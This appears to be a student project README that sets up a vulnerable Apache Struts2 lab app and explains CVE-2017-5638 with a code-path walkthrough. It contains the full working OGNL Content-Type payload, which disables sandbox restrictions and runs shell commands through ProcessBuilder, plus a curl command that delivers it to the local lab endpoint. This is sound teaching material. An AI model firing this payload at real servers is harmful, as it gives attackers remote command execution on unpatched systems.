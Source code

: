 # Groupe 8 crypptography 
# Apache Struts2 Vulnerability | CVE-2017-5638 | Version 2.5 



## Instructions

To run the webapp:
* java -jar ms-cybersecurity-1.jar (uses embedded Tomcat)
* Java 1.8
* the webapp boots on port 8080 by default (http://localhost:8080/MSCybersecurity)

To Send commands use command line emulator (Send.jar) [project](https://github.com/grant100/cybersecurity-struts2-send):

*blank url defaults to http://localhost:8080/MSCybersecurity/exploit, you must be on /exploit endpoint*

![send](src/main/resources/META-INF/resources/images/send.png)

* java -jar Send.jar

If you want to modify this source, the project uses the Maven build system:
* When modifying source: mvn package (create .jar)

NVD [CVE-2017-5638](https://nvd.nist.gov/vuln/detail/CVE-2017-5638)

## The Payload

The clever aspect of this vulernability is the exploitation of OGNL (Object Graph Navigation Library).

OGNL uses expressions to perform tasks, and two of the expressions that are allowed is the ability to invoke arbitrary classes in the framework, and chain events. Reference guide [OGNL Language Guide](https://commons.apache.org/proper/commons-ognl/language-guide.html).

So for example, it is possible then to instantiate edu.uvu.ms.cybersecurity.Command object with OGNL 
 
    //  OGNL expression to instantiate Command obj
    (#cmd='whoami').(#p=new edu.uvu.ms.cybersecurity.Command(#cmd)).(#p.print('hello from MSCybersecurity'))
  
The edu.uvu.ms.cybersecurity.Command class

    // Command simply prints the cmd argument passed from the OGNL expression
    public class Command {
      private Object cmd;
      
      public Command(Object cmd){
        this.cmd = cmd;
      }

      private void print(){
          System.out.println("OGNL recieved cmd: "+this.cmd);
      }
      
      public void print(String loc){
          System.out.println("OGNL recieved cmd: "+this.cmd+" from "+loc);
      }
    }
     
 Or, in a more practical sense, one can invoke the java.lang.ProcessBuilder class to run system level commands 
  
    (#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start())

The following payload contains a command to invoke edu.uvu.ms.cybersecurity.Command and print the command issued to the server into the console, and then proceed to execute the command. (to illustrate chaining of events, and invoking classes)


    Content-Type:  %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#p=new edu.uvu.ms.cybersecurity.Command(#cmd)).(#p.print('hello from MSCybersecurity')).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}


Deliver the payload with CURL

    curl -H "Content-Type:  %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#p=new edu.uvu.ms.cybersecurity.Command(#cmd)).(#p.print('hello from MSCybersecurity')).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}" -X POST http://localhost:8080/MSCybersecurity/exploit

A portion of this payload was pulled from [Rapid7 GitHub](https://github.com/rapid7/metasploit-framework/issues/8064)

## The Breakdown (as viewed from my IDE)

The Jakarta MultiPart Parser:
   
The issue is how the Parser doesn't escape incoming values in the Content-Type header. What this means is that an OGNL expression can be packaged into the Content-Header. When the header is determined that it is MultiPart it sends it off to the OgnlTextParser.class, which simply interprets the OGNL expression and subsequently ends up executing arbitrary commands.

The following is a step-by-step look at how this vulnerability is exploited.

The Struts2 Dispatcher: org.apache.struts2.dispatcher.Dispatcher

The Struts Dispatcher.class receives the request, and determines that it should be handled by the JakartaMultiPart library and invokes the *MultiPartRequestWrapper()* constructor
![Dispatcher](src/main/resources/META-INF/resources/images/Dispatcher-wrapRequest.png)

he OGNL expression from the Content-Type header is then passed into the *parse()* method. Because the header information is bad, the parser will raise an exception and call the *buildErrorMessage()* method 

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-parse.png)

The *buildErrorMessage()* method attempts to find an appropriate error message to return to the user, however, in order to do this, it has to uses the LocalizedTextUtil.class *findText()* method

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-buildError.png)

The LocalizedTextUtil.class findText method will in turn call *getDefaultMessage()* and pass in the Content-Type information 

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-findText.png)

The *getDefaultMessage()* message will then delegate to TextParseUtil.class *translateVariables()* method

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-getDefaultMessage.png)

The TextParseUtil.class *translateVariables()* method delegates to the OgnlTextParser.class evaluate method

![Dispatcher](src/main/resources/META-INF/resources/images/TextParseUtil-translateVariables.png)

The result being that any OGNL expressions are now executed

![Dispatcher](src/main/resources/META-INF/resources/images/OglnTextParser-evaluate.png)

                      
